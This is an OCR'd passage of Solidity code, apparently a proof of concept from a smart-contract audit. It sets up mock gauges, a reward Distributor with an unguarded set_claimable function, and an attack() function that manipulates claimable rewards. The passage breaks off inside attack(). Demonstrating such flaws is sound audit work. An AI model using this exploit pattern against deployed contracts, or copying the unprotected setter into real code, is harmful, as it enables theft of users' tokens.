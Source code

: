 ```
    IERC20 token,
    uint256 amount
) external returns (bool) {
    if(token.balanceOf(address(this)) + amount > capacity )
        return false;
    token.transferFrom(msg.sender, address(this), amount);
    return true;
    }
}

contract Distributor {

    constructor(IERC20 rewardToken) {
        reward = rewardToken;
    }

    mapping(address => uint256) public claimable;
    IERC20 public reward;


    function distribute(address _gauge) public {
        uint256 _claimable = claimable[_gauge];
        claimable[_gauge] = 0;
        IERC20(reward).approve(_gauge, 0); // first set to 0, this helps reset some non-standard tokens
        IERC20(reward).approve(_gauge, _claimable);
        if (!IGauge(_gauge).notifyRewardAmount(address(reward), _claimable)) {
            // can return false, will simply not distribute tokens
            claimable[_gauge] = _claimable;
        }
    }

    function set_claimable(address gauge, uint256 claim) external {
        claimable[gauge] = claim;
    }
}

contract Zero is ERC20 {
    constructor() ERC20("Zero","ZRO") {
        _mint(msg.sender, 100_000 * 1e18);
    }
}

contract DistributorPOC {
    MockIncentiveController supply_gauge;
    MockIncentiveController borrow_gauge;
    LendingPoolGauge lending_gauge;
    Zero zero;
    Distributor d;

    constructor() {
        supply_gauge = new MockIncentiveController(10e18);
        borrow_gauge = new MockIncentiveController(10e18);
        lending_gauge = new LendingPoolGauge(address(supply_gauge), address(borrow_gauge));
        zero = new Zero();
        d = new Distributor(zero);
        zero.transfer(address(d), 100e18);
    }

    function attack() external {
        d.set_claimable(address(lending_gauge), 30e18);
        d.distribute(address(lending_gauge));

```